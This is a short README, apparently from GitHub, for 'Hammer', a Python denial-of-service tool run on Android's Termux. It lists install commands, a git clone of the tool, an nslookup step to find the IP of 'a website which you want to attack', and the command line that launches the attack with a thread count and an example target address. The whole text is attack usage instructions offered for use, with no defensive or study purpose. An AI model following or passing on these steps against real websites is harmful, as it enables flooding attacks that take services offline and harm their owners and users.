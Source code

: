 $ pkg update<br>
$ pkg upgrade<br>
$ pkg install python<br>
$ pkg install git<br>
$ pkg install dnsutils<br>
$ git clone https://github.com/Azim143/Hammer/

Hammer need the <b>Name Server</b> of a website which you want to attack...<br>
To get the Name Server...just type<br>
$ <b>nslookup example.com<b><br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Follow Me:
[`Fb me`](https://www.facebook.com/100022097600640)<br>
[`wp me`](https://chat.whatsapp.com/FRfuraMrZrU3mgCtuFg75k)
